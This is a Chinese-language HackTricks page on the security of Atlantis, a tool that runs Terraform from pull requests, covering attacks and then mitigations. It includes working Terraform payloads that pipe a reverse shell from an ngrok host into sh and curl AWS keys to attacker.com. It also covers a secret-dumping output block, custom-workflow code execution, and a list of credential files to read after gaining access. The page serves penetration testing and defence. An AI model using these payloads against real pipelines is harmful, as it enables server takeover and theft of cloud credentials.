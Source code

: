 # Atlantis安全

<details>

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

Atlantis基本上帮助您从git服务器的拉取请求中运行terraform。

![](<../.gitbook/assets/image (161).png>)

## 本地实验室

1. 前往[https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases)的**atlantis发布页面**，**下载**适合您的版本。
2. 创建您的**github**用户的**个人令牌**（具有存储库访问权限）
3. 执行 `./atlantis testdrive`，它将创建一个您可以用来**与atlantis交互**的**演示存储库**
1. 您可以在127.0.0.1:4141访问网页

## Atlantis访问

### Git服务器凭据

**Atlantis**支持多个git主机，如**Github**、**Gitlab**、**Bitbucket**和**Azure DevOps**。\
但是，为了访问这些平台上的存储库并执行操作，需要为它们授予一些**特权访问权限**（至少写入权限）。\
[**文档**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional)鼓励在这些平台上创建一个专门用于Atlantis的用户，但有些人可能使用个人帐户。

{% hint style="warning" %}
无论如何，从攻击者的角度来看，**Atlantis帐户**将是一个非常**有趣**的**被入侵**目标。
{% endhint %}

### Webhooks

Atlantis可选择使用[**Webhook密钥**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret)来验证从您的Git主机接收的**webhooks**是否**合法**。

确认的一种方法是**允许请求仅来自您的Git主机的IP**，但更简单的方法是使用Webhook密钥。

请注意，除非您使用私有github或bitbucket服务器，否则您将需要将webhook端点暴露到互联网上。

{% hint style="warning" %}
Atlantis将**公开webhooks**，以便git服务器可以向其发送信息。从攻击者的角度来看，了解**是否可以向其发送消息**将是很有趣的。
{% endhint %}

### 提供者凭据 <a href="#provider-credentials" id="provider-credentials"></a>

[来自文档：](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis通过简单地在托管Atlantis的服务器上执行`terraform plan`和`apply`命令来运行Terraform。就像在本地运行Terraform时一样，Atlantis需要您特定提供者的凭据。

您可以选择如何为Atlantis提供您特定提供者的凭据：

* Atlantis的[Helm Chart](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart)和[AWS Fargate模块](https://www.runatlantis.io/docs/deployment.html#aws-fargate)有它们自己的提供者凭据机制。请阅读它们的文档。
* 如果您在云中运行Atlantis，则许多云都有方法为在其上运行的应用程序提供云API访问权限，例如：
* [AWS EC2角色](https://registry.terraform.io/providers/hashicorp/aws/latest/docs)（搜索“EC2角色”）
* [GCE实例服务帐户](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* 许多用户设置环境变量，例如`AWS_ACCESS_KEY`，其中Atlantis正在运行。
* 其他人创建必要的配置文件，例如`~/.aws/credentials`，其中Atlantis正在运行。
* 使用[HashiCorp Vault提供者](https://registry.terraform.io/providers/hashicorp/vault/latest/docs)获取提供者凭据。

{% hint style="warning" %}
**Atlantis**正在**运行**的**容器**很可能会包含对由Terraform管理的提供者（AWS、GCP、Github等）的**特权凭据**。
{% endhint %}

### 网页

默认情况下，Atlantis将在本地主机的端口4141上运行一个**网页**。此页面只允许您启用/禁用atlantis应用程序并检查存储库的计划状态并解锁它们（不允许修改内容，因此并不那么有用）。

您可能不会发现它暴露在互联网上，但默认情况下**不需要凭据**访问它（如果需要，`atlantis`:`atlantis`是**默认**凭据）。

## 服务器配置

可以通过命令行标志、环境变量、配置文件或三者混合来指定对`atlantis server`的配置。

* 您可以在[**这里找到支持的标志列表**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration)由Atlantis服务器支持
* 您可以在[**这里找到如何将配置选项转换为环境变量**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

值按照以下顺序**选择**：

1. 标志
2. 环境变量
3. 配置文件

{% hint style="warning" %}
请注意，在配置中您可能会找到诸如**令牌和密码**等有趣的值。
{% endhint %}

### 存储库配置

某些配置会影响**存储库的管理方式**。但是，可能**每个存储库需要不同的设置**，因此有方法指定每个存储库。这是优先级顺序：

1. 存储库[**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config)文件。此文件可用于指定atlantis应如何处理存储库。但是，默认情况下，一些键不能在此处指定，除非允许一些标志。
1. 可能需要通过像`allowed_overrides`或`allow_custom_workflows`这样的标志来允许
2. [**服务器端配置**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config)：您可以使用`--repo-config`标志传递它，这是一个为每个存储库配置新设置的yaml（支持正则表达式）
3. **默认**值
#### PR保护

Atlantis允许指定是否希望**PR**在运行应用之前被其他人**`批准`**（即使在分支保护中没有设置），和/或在**运行应用之前可合并**（分支保护已通过）。从安全角度考虑，建议同时设置这两个选项。

如果`allowed_overrides`为True，则可以通过**`/atlantis.yml`文件**在每个项目上**覆盖这些设置**。

#### 脚本

存储库配置可以**指定脚本**在[**之前**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage)（_预工作流挂钩_）和[**之后**](https://www.runatlantis.io/docs/post-workflow-hooks.html)（_后工作流挂钩_）**执行工作流程**。

在**存储库`/atlantis.yml`**文件中**没有选项**允许**指定**这些脚本。

#### 工作流程

在存储库配置（服务器端配置）中，您可以[**指定新的默认工作流程**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow)，或[**创建新的自定义工作流程**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**。** 您还可以**指定**哪些**存储库**可以**访问**生成的新工作流程**。\
然后，您可以允许每个存储库的**atlantis.yaml**文件**指定要使用的工作流程**。

{% hint style="danger" %}
如果[**服务器端配置**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config)标志`allow_custom_workflows`设置为**True**，则可以在每个存储库的**`atlantis.yaml`**文件中**指定工作流程**。还可能需要**`allowed_overrides`**也指定**`workflow`**以**覆盖将要使用的工作流程**。\
这基本上会**向可以访问该存储库的任何用户提供Atlantis服务器中的RCE**。
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Conftest策略检查

Atlantis支持针对计划输出运行**服务器端**[**conftest**](https://www.conftest.dev/) **策略**。使用此步骤的常见用例包括：

- 拒绝使用模块列表
- 在创建时断言资源的属性
- 捕获意外资源删除
- 防止安全风险（例如将安全端口暴露给公众）

您可以查看如何配置它在[**文档**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works)中。

## Atlantis命令

在[**文档**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis)中，您可以找到可以用来运行Atlantis的选项：
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## 攻击

{% hint style="warning" %}
如果在利用过程中遇到此**错误**：`Error: Error acquiring the state lock`

您可以通过运行以下命令来修复：
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis计划RCE - 在新PR中修改配置

如果您对存储库具有写入访问权限，您将能够在其中创建一个新分支并生成一个PR。如果您可以执行`atlantis plan`（或者它可能会自动执行），**您将能够在Atlantis服务器内执行RCE**。

您可以通过让[**Atlantis加载外部数据源**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source)来实现这一点。只需在`main.tf`文件中放入如下有效负载：
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 更隐蔽的攻击

您可以以更隐蔽的方式执行此攻击，方法如下：

* 不要直接将反向 shell 添加到 terraform 文件中，而是可以**加载包含反向 shell 的外部资源**：
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
你可以在[https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)找到反向shell代码。

* 在外部资源中，使用**ref**功能来隐藏**存储库中的terraform反向shell代码的分支**，类似于：`git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **而不是**创建一个**到主分支的PR**来触发Atlantis，**创建2个分支**（test1和test2），并从一个分支创建一个**PR到另一个分支**。当攻击完成后，只需**删除PR和分支**。

### Atlantis计划机密转储

你可以通过在terraform文件中放置类似以下内容来**转储terraform使用的机密**运行`atlantis plan` (`terraform plan`)：
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis应用RCE - 在新PR中修改配置

如果您对存储库具有写入访问权限，则可以在其上创建一个新分支并生成一个PR。如果您可以执行`atlantis apply`，则可以在Atlantis服务器内部执行RCE。

但是，通常您需要绕过一些保护措施：

- **可合并性**：如果在Atlantis中设置了此保护措施，则只有在PR可合并时才能运行`atlantis apply`（这意味着需要绕过分支保护）。
- 检查可能的[**分支保护绕过**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **已批准**：如果在Atlantis中设置了此保护措施，则**其他用户必须在您运行`atlantis apply`之前批准该PR**。
- 默认情况下，您可以滥用[**Gitbot令牌来绕过此保护**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

在恶意Terraform文件上运行`terraform apply`，其中包含[**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)。\
您只需要确保类似以下负载的内容出现在`main.tf`文件中：
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
遵循**上一个技术的建议**以更**隐蔽的方式**执行此攻击。

### Terraform 参数注入

当运行 `atlantis plan` 或 `atlantis apply` 时，terraform 在后台运行，您可以通过在 atlantis 中注释一些内容来向 terraform 传递命令：
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
### 自定义工作流程

运行在 `atlantis.yaml` 文件中指定的**恶意自定义构建命令**。Atlantis 使用来自拉取请求分支的 `atlantis.yaml` 文件，而**不是**来自 `master` 分支。\
这种可能性在前面的部分中提到过：

{% hint style="danger" %}
如果[**服务器端配置**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config)标志 `allow_custom_workflows` 设置为 **True**，工作流程可以在每个存储库的 **`atlantis.yaml`** 文件中**指定**。还可能需要 **`allowed_overrides`** 也指定 **`workflow`** 来**覆盖将要使用的工作流程**。

这基本上会给**可以访问该存储库的任何用户在 Atlantis 服务器中执行远程代码**的权限。
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### 绕过计划/应用保护

如果[**服务器端配置**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config)标志`allowed_overrides` _已_配置`apply_requirements`，则可能允许存储库**修改计划/应用保护以绕过它们**。
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR劫持

如果有人在您的有效拉取请求上发送`atlantis plan/apply`评论，将导致terraform在您不希望运行时运行。

此外，如果您没有在**分支保护**中配置为在**推送新提交**时要求**重新评估**每个PR，某人可以在terraform配置中**写入恶意配置**（检查先前的情景），运行`atlantis plan/apply`并获得RCE。

这是Github分支保护中的**设置**：

![](<../.gitbook/assets/image (216).png>)

### Webhook密钥

如果您设法**窃取了使用的Webhook密钥**，或者**没有使用任何Webhook密钥**，您可以**调用Atlantis Webhook**并直接**调用atlantis命令**。

### Bitbucket

Bitbucket Cloud**不支持Webhook密钥**。这可能允许攻击者**伪造来自Bitbucket的请求**。确保只允许Bitbucket IP。

* 这意味着**攻击者**可以制作看起来来自Bitbucket的**虚假请求**发送到Atlantis。
* 如果您指定了`--repo-allowlist`，那么他们只能伪造与那些存储库相关的请求，因此他们可能对您自己的存储库进行计划/应用。
* 为防止此类情况，允许列出[Bitbucket的IP地址](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)（请参见Outbound IPv4地址）。

## 后渗透

如果您设法访问服务器，或者至少获得了LFI，有一些有趣的事情您应该尝试阅读：

* `/home/atlantis/.git-credentials` 包含VCS访问凭据
* `/atlantis-data/atlantis.db` 包含更多信息的VCS访问凭据
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Terraform状态文件
* 示例：/atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` 环境变量
* `/proc/[2-20]/cmdline` `atlantis server`的Cmd行（可能包含敏感数据）

## 缓解措施

### 不要在公共存储库上使用 <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

因为任何人都可以在公共拉取请求上发表评论，即使有所有可用的安全缓解措施，也在没有正确配置安全设置的情况下在公共存储库上运行Atlantis仍然很危险。

### 不要使用`--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

如果您在公共存储库上运行（不建议，请参见上文），则不应设置`--allow-fork-prs`（默认为false），因为任何人都可以从其分支向您的存储库打开拉取请求。

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis要求您通过`--repo-allowlist`标志指定将接受Webhook的存储库的白名单。例如：

* 特定存储库：`--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* 整个组织：`--repo-allowlist=github.com/runatlantis/*`
* 您GitHub企业安装中的每个存储库：`--repo-allowlist=github.yourcompany.com/*`
* 所有存储库：`--repo-allowlist=*`。在受保护的网络中很有用，但如果没有设置Webhook密钥，也很危险。

此标志确保您的Atlantis安装不会与您无法控制的存储库一起使用。有关更多详细信息，请参阅`atlantis server --help`。

### 保护Terraform规划 <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

如果攻击者提交带有恶意Terraform代码的拉取请求在您的威胁模型中，则必须意识到`terraform apply`批准是不够的。可以使用[`external`数据源](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source)运行恶意代码在`terraform plan`中，或者通过指定恶意提供程序。然后，此代码可能窃取您的凭据。

为防止此情况，您可以：

1. 将提供程序嵌入Atlantis镜像或主机，并在生产环境中拒绝出站流量。
2. 在内部实现提供程序注册表协议并拒绝公共出站流量，这样您可以控制谁有写访问权限。
3. 修改您的[服务器端存储库配置](https://www.runatlantis.io/docs/server-side-repo-config.html)的`plan`步骤，以验证是否使用了不允许的提供程序或数据源或来自不允许用户的PR。在这一点上，您还可以添加额外的验证，例如在允许`plan`继续之前要求对PR进行“点赞”。Conftest可能在这里有用。

### Webhook密钥 <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis应该通过`$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`环境变量设置Webhook密钥。即使设置了`--repo-allowlist`标志，如果没有Webhook密钥，攻击者仍然可以伪装成允许列出的存储库向Atlantis发出请求。Webhook密钥确保Webhook请求实际来自您的VCS提供商（GitHub或GitLab）。

如果您使用Azure DevOps，可以添加基本用户名和密码，而不是Webhook密钥。

### Azure DevOps基本身份验证 <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps支持在所有Webhook事件中发送基本身份验证头。这需要在Webhook位置使用HTTPS URL。

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

如果您使用Webhook密钥，但流量通过HTTP，则Webhook密钥可能会被窃取。使用`--ssl-cert-file`和`--ssl-key-file`标志启用SSL/HTTPS。

### 在Atlantis Web服务器上启用身份验证 <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

强烈建议在Web服务中启用身份验证。使用`--web-basic-auth=true`启用BasicAuth，并使用`--web-username=yourUsername`和`--web-password=yourPassword`标志设置用户名和密码。

您还可以将这些作为环境变量传递`ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` 和 `ATLANTIS_WEB_PASSWORD=yourPassword`。

## 参考资料

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}
